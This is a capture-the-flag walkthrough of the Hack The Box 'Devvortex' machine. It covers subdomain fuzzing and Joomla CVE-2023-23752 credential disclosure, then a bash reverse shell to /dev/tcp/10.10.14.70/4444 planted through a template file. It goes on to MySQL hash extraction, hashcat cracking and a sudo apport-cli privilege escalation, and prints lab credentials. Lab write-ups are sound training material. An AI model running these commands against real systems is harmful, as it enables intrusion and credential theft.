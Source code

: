 
Starts with an nmap of our ip address

```
nmap -sC -sV {ip of target}
```

Add ip to hosts list:

```
echo "{target ip} devvortex.htb" | sudo tee -a /etc/hosts
```

I used gobuster with some issues, but the writeup used ffuf with success, so I will detail that here:

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-
top100000.txt:FUZZ -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb' -fw 4 -
t 100
```

Add the subdomain to the hosts list:

```
echo "10.129.228.37 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

Fuzz directories:

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://dev.devvortex.htb/FFUZ -ic  -t 100
```

We find an administrator endpoint which is running Joomla. In `/administrator/manifests/files/joola.xml` we find version number `4.2.6`.

There is the vulnerability CVE-2023-23752, to exploit this we send a GET requests to an endpoint using curl.

```
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true -vv
```

We get the credentials `lewis:P4ntherg0t1n5r3c0n##`

In Joomla go to `System>Site Templates > Cassiopedia Details and Files > error.php`

Add this php code to the bottom of the error.php file

On our local box we create a reverse shell,

```
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh
```

Create a webserver in the same directory:

```
python3 -m http.server 8080
```

Start a netcat listener:

```
nc -lnvp 4444
```

Then send a curl from our local triggering the error.php

```
curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
```

This gives access to the victim's box, and we use this command to get us a better shell:

```
script /dev/null -c bash
```

We use lewis' credentials to get us access to mysql:

```
mysql -u lewis -p
```

Commands to run against the db:

```
use joomla
select * from sd4fg_users;
```

We get the following hash from the db as pw

```
hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
```

Which returns as a bcrypt hash, we use hashcat to get the password, tequieromucho

```
hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
```

We ssh into logan, and obtain the user flag.

For privilege escalation run `sudo l` to find what files we can run as sudo.

```
$sudo -l

/usr/bin/apport-cli

$ /usr/bin/apport-cli --version

2.20.11
```

There is a vulnerability apport-cli, which is a command line tool for reporting and analyzing app crashes on Ubuntu and Debian linux distros.

We run `ps -ux` to to find the pid of `/lib/systemd/systemmd --user` 

Then we run:

```
sudo /usr/bin/apport-cli -f -P 4576
```

This gets us root, file is in `/root/root.txt`


